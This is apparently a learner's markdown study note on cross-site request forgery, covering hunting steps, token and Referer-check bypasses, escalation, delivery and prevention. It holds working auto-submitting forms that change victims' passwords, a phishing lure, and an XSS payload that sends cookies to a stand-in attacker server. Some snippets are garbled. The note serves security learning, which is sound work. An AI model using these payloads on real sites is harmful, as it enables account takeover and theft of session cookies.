


# CSRF

Tags: Done
Status: practicing

## what is CSRF?

---

it a kind of attacks that let the attacker send request instead of victim to perform an unintended 

actions like (change passwords , transfer money, etc)

## how the attack works?

---

### demo

the modern web apps manage authentication process using session cookies

for example when you log into Twitter, the Twitter server sends your
browser the session cookie via an HTTP response header called Set-Cookie:

```jsx
Set-Cookie: session_cookie=YOUR_TWITTER_SESSION_COOKIE;
```

after the browser receives the session storing it then send it through Cookie HTTP request header

with every request to twitter to let the server know who are you.

### mechanism

for example if there is a social website like twitter have the tweet functionality like the below

```jsx
<html>
 <h1>Send a tweet.</h1>
 <form method="POST" action="https://twitter.com/send_a_tweet">
 <input type="text" name="tweet_content" value="Hello world!">
 <input type="submit" value="Submit">
</form>
</html>
```



vulnerable function 

when the user clicks on submit the browser automatically send a post request that include the 

twitter session cookie in request.

that functionality is vulnerable to CSRF cos not just twitter can initiate this request

so the attacker can host an html page in his website and it includes a submit button 

```jsx
<html>
<h1>Please click Submit.</h1>
<form method="POST" action="https://twitter.com/send_a_tweet" id="csrf-form">
<input type="text" name="tweet_content" value="Follow @vickieli7 on Twitter!">
<input type='submit' value="Submit">
</form>
</html>
```



when the victim click on submit button a post request generated that include session cookie of user and the  hacker tweet and twitter will treat that request as valid because it include the user session cookie so every time the victim click the submit the hacker tweet is tweeted 

so to make the attack more realistic should force the victim to submit because the victim 

mostly wouldn’t click submit .

```jsx
<html>
<iframe style="display:none" name="csrf-frame"> 
<form method="POST" action="https://twitter.com/send_a_tweet"
target="csrf-frame" id="csrf-form"> 
<input type="text" name="tweet_content" value="Follow @vickieli7 on Twitter!">
<input type='submit' value="Submit">
</form>
</iframe>
<script>document.getElementById("csrf-form").submit();</script> 
</html>
```

**iframe:** is an HTML element that embeds another document within the current HTML document.

iframe’s style is set to display:none, meaning it won’t be displayed on the page, making the form invisible Then, JavaScript code between the script tags  will submit the form with the ID csrf-form without the need for user interaction because the js code will excute when the victim visit the link  

## Hunting for CSRFs

---

to look for csrf start discovering the state changing that not shielded by csrf protection

Note: chrome browser has a csrf protection 

### Step 1: Spot State-Changing Actions

spot state-changing actions means the actions that alter the user data like(sending tweets ,change password)

discover app functionality 

1. go through the app
2. click every function in app 
3. collect every end points like below  and record it in list 

```jsx
email.example.com/password_change
email.example.com/send_email
email.example.com/delete_email
```

### Step 2: Look for a Lack of CSRF Protections

1. visit every endpoint 
2. intercept every request 
3. click forward button in proxy until found CSRF protection mechanisms 
4. search in request with “csrf” , ”state” to find csrf protection 
5. after finding csrf protection try to bypass it 

```jsx
POST /password_change
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=871caef0757a4ac9691aceb9aad8b65b
(POST request body)
new_password=abc123
```

### Step 3: Confirm the Vulnerability (exploit level)

after found the vulnerable endpoint we can exploit it by crafting an malicious  html form that 

send request as the victim request 

```jsx
<html>
<form method="POST" action="https://email.example.com/password_change" id="csrf-form"> 
<input type="text" name="new_password" value="abc123"> 
<input type="submit" value="Submit"> 
</form>
<script>document.getElementById("csrf-form").submit();</script> 
</html>
```

the attack will be the  follow

1. sending request to “https://email.example.com/password_change”
2. give the new password attribute the attacker new password 
3. force the victim to send the request by using automatic js code

```jsx
POST /password_change
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE
(POST request body)
new_password=abc123
```

and checking if the password has been changed to “abc123”

## Bypassing CSRF Protection

---

Modern websites are becoming more secure but that’s not mean it impossible to bypass

there are more than one bypass technique 

### Exploit Clickjacking

if the endpoints is using csrf token protection  but the endpoint is vulnerable to 

“clickjacking” we can exploit it to achieve csrf because in “”clickjacking” attacker 

use iframe to frame the page in malicious site while having the state-changing request

**How ”Clickjacking” work ?**

Note: to exploit it should have some css skills to trick the victim 

it works by trying to frame the endpoint in html page like the below 

and if it is appear so it is vulnerable to “clickjacking ” .

```jsx
<html>
<head>
<title>Clickjack test page</title>
</head>
<body>
<p>This page is vulnerable to clickjacking if the iframe is not blank!</p>
<iframe src="PAGE_URL" width="500" height="500"></iframe>
</body>
</html
```

### Change the Request Method

in case that the endpoint accept more than one method and it put a csrf protection on one method only so we can change the method and send request and see if i can get away with not providing a CSRF token

```jsx
POST /password_change
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE
(POST request body)
new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
```

```jsx
GET /password_change?new_password=abc123
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE
```

```jsx
<html>

</html>
```

### Bypass CSRF Tokens Stored on the Server

If he site implements CSRF protection via tokens but doesn’t validate it in right way 

so we can achieve csrf with modifying csrf token header using the following techniques 

  

1. **Deleting the token parameter**
    
    ```jsx
    POST /password_change
    Host: email.example.com
    Cookie: session_cookie=YOUR_SESSION_COOKIE
    (POST request body)
    new_password=abc123
    ```
    

we can generated with the code below

```jsx
<html>
<form method="POST" action="https://email.example.com/password_change" id="csrf-form">
<input type="text" name="new_password" value="abc123">
<input type='submit' value="Submit">
</form>
<script>document.getElementById("csrf-form").submit();</script>
</html>
```

1. **Send a blank csrf_token parameter**

```jsx
POST /password_change
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE
(POST request body)
new_password=abc123&csrf_token=
```

we can generate it with 

```html
<html>
<form method="POST" action="https://email.example.com/password_change" id"csrf-form">
<input type="text" name="new_password" value="abc123">
<input type="text" name="csrf_token" value="">
<input type='submit' value="Submit">
</form>
<script>document.getElementById("csrf-form").submit();</script>
</html>
```

The code for an insecure application’s validation mechanism might look roughly like this:

```python
def validate_token():
 if (request.csrf_token == session.csrf_token):
pass
else:
 throw_error("CSRF token incorrect. Request rejected.")
[...]
def process_state_changing_action():
if request.csrf_token:
validate_token()
 execute_action(
```

1. **Valid token and not belong to current user**
    
    it works by trying create an account to generate your own token and try to replace it 
    
    with the current user token 
    
    so the request will be like that 
    
    ```jsx
    POST /password_change
    Host: email.example.com
    Cookie: session_cookie=YOUR_SESSION_COOKIE
    (POST request body)
    new_password=abc123&csrf_token=YOUR_TOKEN
    ```
    
    we can generate it with the code below 
    
    ```jsx
    <html>
    <form method="POST" action="https://email.example.com/password_change" id"csrf-form">
    <input type="text" name="new_password" value="abc123">
    <input type="text" name="csrf_token" value="YOUR_TOKEN">
    <input type='submit' value="Submit">
    </form>
    <script>document.getElementById("csrf-form").submit();</script>
    </html>
    ```
    
    so The faulty application logic might look something like this:
    
    ```python
    def validate_token():
    if request.csrf_token:
     if (request.csrf_token in valid_csrf_tokens):
    		pass
    else:
    throw_error("CSRF token incorrect. Request rejected.")
    [...]
    def process_state_changing_action():
    validate_token()
    execute_action()
    ```
    
    ### Bypass Double-Submit CSRF Tokens
    
    at this protection mechanism the the state-changing request contains the same random token
    as both a cookie and a request parameter, and the server checks whether the two values are equal for example 
    
    ```jsx
    POST /password_change
    Host: email.example.com
    Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=871caef0757a4ac9691aceb9aad8b65b
    (POST request body)
    new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
    ```
    
    If the application uses double-submit cookies as its CSRF defense mechanism,
    it’s probably not keeping records of the valid token server-side
    
    the weakness  in this mechanism that sometimes  the server doesn’t check that the token it self is valid or not it only check the token  the cookie and the token in the request body is the same
    
    so we can replace the tow tokens in the request to any random token but the same one 
    
    like that 
    
    ```jsx
    POST /password_change
    Host: email.example.com
    Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=not_a_real_token
    (POST request body)
    new_password=abc123&csrf_token=not_a_real_token
    ```
    
    ### Bypass CSRF Referer Header Check
    
    instead of tokens validation The server might verify that the referer header sent with
    the state-changing request is a part of the website’s allowlisted domains
    
    so we can bypass it with the following
    
    1. **Remove the referer header** 
        
        we can remove the referer header by add <meta> tag in the hosting request form to tell the browser to not include the referer header in the request in  
        
        ```jsx
        <html>
        <meta name="referrer" content="no-referrer">
        <form method="POST" action="https://email.example.com/password_change" id="csrf-form">
        <input type="text" name="new_password" value="abc123">
        <input type='submit' value="Submit">
        </form>
        <script>document.getElementById("csrf-form").submit();</script>
        </html>
        ```
        
        the vulnerable code in the backend will be 
        
        ```python
        def validate_referer():
        if (request.referer in allowlisted_domains):
        	 pass
        else:
        throw_error("Referer incorrect. Request rejected.")
        [...]
        def process_state_changing_action():
        if request.referer:
        validate_referer()
        execute_action()
        ```
        
        1. **Bypass string check** 
            
            it works when the application check for is there specific string is exist in the referer header and excute the request for example  if it check for “example.com” string
            
            so we can bypass the referer check by placing the victim domain name in the referer URL as a subdomain. we can achieve this by creating a subdomain named after the victim’s domain,
            
             the request will be
            
            ```jsx
            POST /password_change
            Host: email.example.com
            Cookie: session_cookie=YOUR_SESSION_COOKIE;
            Referer: example.com.attacker.com
            (POST request body)
            new_password=abc123
            ```
            
            and the vulnerable code in backend will be 
            
            ```python
            validate_referer():
            if request.referer:
            if ("example.com" in request.referer):
            pass
            else:
            throw_error("Referer incorrect. Request rejected.")
            [...]
            def process_state_changing_action():
            validate_referer()
            execute_action()
            ```
            
            and we can also try placing the victim domain name in the referer URL as
            a pathname
            
            ```jsx
            POST /password_change
            Host: email.example.com
            Cookie: session_cookie=YOUR_SESSION_COOKIE;
            Referer: attacker.com/example.com
            (POST request body)
            new_password=abc123
            ```
            
            ## Escalating the Attack
            
            ---
            
            after finding the vulnerability we can maximize the attack by escalate it 
            
            ### Leak User Information by Using CSRF
            
            the vulnerability can lead to leek information 
            
            For example, let’s say the [example.com](http://example.com/) web application sends monthly billing emails to a user-designated email address. These emails contain the users’ billing information, including street addresses, phone numbers, and credit card information
            
            so i can change billing emails address via the following request
            
            ```jsx
            POST /change_billing_email
            Host: example.com
            Cookie: session_cookie=YOUR_SESSION_COOKIE;
            (POST request body)
            email=NEW_EMAIL&csrf_token=
            ```
            
            so after receiving  the billing i could an informatios about victim  
            
            ### Create Stored Self-XSS by Using CSRF
            
            **self-XSS:** is a kind of XSS attack that requires the victim to input the XSS payload
            
            so when we could combine “csrf” with “self xss” we can get atored xss
            
            for example we have an endpoint(ex.example.com)  to change profile neck name and the change field is vulnerable to “self xss” and the same end point has “csrf” could bypassed by send a blank token so we can get “stored xss” with 
            
             
            
            ```jsx
            POST /change_account_nickname
            Host: ex.example.com
            Cookie: session_cookie=YOUR_SESSION_COOKIE;
            (POST request body)
            account=0
            &nickname="<script>document.location='http://attacker_server_ip/
            cookie_stealer.php?c='+document.cookie;</script>"
            ```
            
            it will store the xss payload in this endpoint when the user visit it the payload excutes.
            
            ### Take Over User Accounts by Using CSRF
            
            Sometimes CSRF can even lead to account takeover 
            
            **when it occur?**
            
            account takeover issues occur when a CSRF vulnerability exists in critical functionality, like the code that creates a password
            
            **for example** the “example.com” allow users to log in with their email and password and have the option to log in using their social media accounts and who have loged in using social media accounts have the option to set new password via that request
            
            ```jsx
            POST /set_password
            Host: example.com
            Cookie: session_cookie=YOUR_SESSION_COOKIE;
            (POST request body)
            password=XXXXX&csrf_token=871caef0757a4ac9691aceb9aad8b65b
            ```
            
            so the don’t need to provide a new password and at the same time setting new password end point “csrf” protection fails for any reason (so that’s the point) here the attacker could set password for any account has logged in usin social media account 
            
            with following request
            
            ```jsx
            POST /set_password
            Host: example.com
            Cookie: session_cookie=YOUR_SESSION_COOKIE;
            (POST request body)
            password=XXXXX&csrf_token=
            ```
            
            that could generated with the following code
            
            ```jsx
            <html>
            <form method="POST" action="https://email.example.com/set_password" id="csrf-form">
            <input type="text" name="new_password" value="this_account_is_now_mine">
            <input type="text" name="csrf_token" value="">
            <input type='submit' value="Submit">
            </form>
            <script>document.getElementById("csrf-form").submit();</script>
            </html>
            ```
            
            ## Delivering the CSRF Payload
            
            ---
            
            .1 **Trick user to visit external malicious site** 
            
            for example Find a way to attract the user like post the following post in telegram group  
            
            <aside>
            ✉️
            
            Visit this page to get a discount on your [example.com](http://example.com/) subscription:
            
            [https://example.attacker.com](https://example.attacker.com/)
            
            </aside>
            
            And on [example.attacker.com](http://example.attacker.com/), the attacker can host an auto-submitting
            form to execute the CSRF:
            
            ```jsx
            <html>
            <form method="POST" action="https://email.example.com/set_password" id="csrf-form">
            <input type="text" name="new_password" value="this_account_is_now_mine">
            <input type='submit' value="Submit">
            </form>
            <script>document.getElementById("csrf-form").submit();</script>
            </html>
            ```
            
            1. **Embed the request as an image**
                
                if we could execute via a GET request
                
                for example when the user the image page the csrf payload will directly excutes
                
                ```jsx
                
                ```
                
            
            1. **Deliver it using stored xss**
                
                for example if the comment field in forum suffers from “stored xss” and “csrf” so if we could comment with following code every user see the comment csrf will excute   
                
                ```jsx
                <script>
                document.body.innerHTML += "
                <form method="POST" action="https://email.example.com/set_password" id="csrf-form">
                <input type="text" name="new_password" value="this_account_is_now_mine">
                <input type='submit' value="Submit">
                </form>";
                document.getElementById("csrf-form").submit();
                </script>
                ```
                
                ## How To Prevent
                
                ---
                
                - **CSRF tokens**
                    
                    The best way to prevent CSRFs is to use CSRF tokens that means the browser embed random and unpredictable value in every request that the way that the server validate request  to ensure that the request is from the actual user .
                    
                    so the token should be 
                    
                    - unfixed for every session
                    - unique for every session
                    - have sufficient entropy to be not deductible
                
                - **SameSite flag**
                    
                    the “Set-Cookie” header have “SameSite” flag to protect the user .
                    
                    if the flag is 
                    
                    - set to ”strict” the client’s browser won’t send the cookie during cross-site requests
                    
                    ```jsx
                    Set-Cookie: PHPSESSID=UEhQU0VTU0lE; Max-Age=86400; Secure; HttpOnly; SameSite=Strict
                    ```
                    
                    - set to “lax” witch tells the client’s browser to send the cookie only when the user click on submit  And this is sequentially if third party will embed an post request to the web site
                        
                        the cookie won’t be sent 
                        
                        ```jsx
                        Set-Cookie: PHPSESSID=UEhQU0VTU0lE; Max-Age=86400; Secure; HttpOnly; SameSite=Lax
                        ```
                        
                    
                - **Referer header-based validation**
                    
                    to check referer header with some string conditions 
                    
                
                ## Finding Your First CSRF!
                
                here the steps that you could follow to find your first csrf
                
                1. Spot the state-changing actions on the application and keep a note on
                their locations and functionality.
                2. Check these functionalities for CSRF protection. If you can’t spot any
                protections, you might have found a vulnerability!
                3. If any CSRF protection mechanisms are present, try to bypass the protection
                by using the protection-bypass techniques mentioned in this
                chapter.
                4. Confirm the vulnerability by crafting a malicious HTML page and visiting
                that page to see if the action has executed.
                5. Think of strategies for delivering your payload to end users.
                6. Draft your first CSRF report!